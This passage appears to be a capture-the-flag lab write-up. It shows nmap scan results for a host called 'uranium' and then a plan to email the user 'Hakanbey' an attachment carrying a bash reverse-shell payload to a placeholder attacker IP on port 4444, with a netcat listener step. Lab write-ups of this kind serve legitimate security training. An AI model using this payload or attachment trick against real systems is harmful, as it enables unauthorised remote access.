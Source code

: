 ```
|_  256 c2:94:2b:0d:8e:a9:53:f6:ef:34:db:f1:43:6c:c1:7e (ED25519)
25/tcp open  smtp    Postfix smtpd
|_smtp-commands: uranium, PIPELINING, SIZE 10240000, VRFY, ETRN, STARTTLS, ENHANCEDSTATUSCODES, 8BITMIME, DSN, SMTPUTF8, 
| ssl-cert: Subject: commonName=uranium
| Subject Alternative Name: DNS:uranium
| Not valid before: 2021-04-09T21:40:53
|_Not valid after:  2031-04-07T21:40:53
|_ssl-date: TLS randomness does not represent time
80/tcp open  http    Apache httpd 2.4.29 ((Ubuntu))
|_http-server-header: Apache/2.4.29 (Ubuntu)
|_http-title: Uranium Coin
No exact OS matches for host (If you know what OS is running on it, see https://nmap.org/submit/ ).
TCP/IP fingerprint:
OS:SCAN(V=7.91%E=4%D=8/22%OT=22%CT=1%CU=33867%PV=Y%DS=2%DC=T%G=Y%TM=6122A9A
OS:D%P=x86_64-pc-linux-gnu)SEQ(SP=F9%GCD=1%ISR=108%TI=Z%CI=Z%II=I%TS=A)OPS(
OS:O1=M505ST11NW6%O2=M505ST11NW6%O3=M505NNT11NW6%O4=M505ST11NW6%O5=M505ST11
OS:NW6%O6=M505ST11)WIN(W1=F4B3%W2=F4B3%W3=F4B3%W4=F4B3%W5=F4B3%W6=F4B3)ECN(
OS:R=Y%DF=Y%T=40%W=F507%O=M505NNSNW6%CC=Y%Q=)T1(R=Y%DF=Y%T=40%S=O%A=S+%F=AS
OS:%RD=0%Q=)T2(R=N)T3(R=N)T4(R=Y%DF=Y%T=40%W=0%S=A%A=Z%F=R%O=%RD=0%Q=)T5(R=
OS:Y%DF=Y%T=40%W=0%S=Z%A=S+%F=AR%O=%RD=0%Q=)T6(R=Y%DF=Y%T=40%W=0%S=A%A=Z%F=
OS:R%O=%RD=0%Q=)T7(R=Y%DF=Y%T=40%W=0%S=Z%A=S+%F=AR%O=%RD=0%Q=)U1(R=Y%DF=N%T
OS:=40%IPL=164%UN=0%RIPL=G%RID=G%RIPCK=G%RUCK=G%RUD=G)IE(R=Y%DFI=N%T=40%CD=
OS:S)

Network Distance: 2 hops
Service Info: Host:  uranium; OS: Linux; CPE: cpe:/o:linux:linux_kernel

TRACEROUTE (using port 110/tcp)
HOP RTT       ADDRESS
1   115.77 ms 10.8.0.1
2   115.23 ms 10.10.76.40

OS and Service detection performed. Please report any incorrect results at https://nmap.org/submit/ .
Nmap done: 1 IP address (1 host up) scanned in 29.58 seconds


```
# Open ports 
```
22, 25, 80
```

![3](https://user-images.githubusercontent.com/74853138/130368301-22801600-0328-4aaf-b14a-35e2632ce2b9.png)

```
here we can send mail to Hakanbey with application attached, and let's send it with our payload inside.
```
## Create our payload
```
root@ubuntu:~/THM/uranum# cat application
bash -c "bash -i >& /dev/tcp/attacker_ip/4444 0>&1"

```
Create Listner session with nc
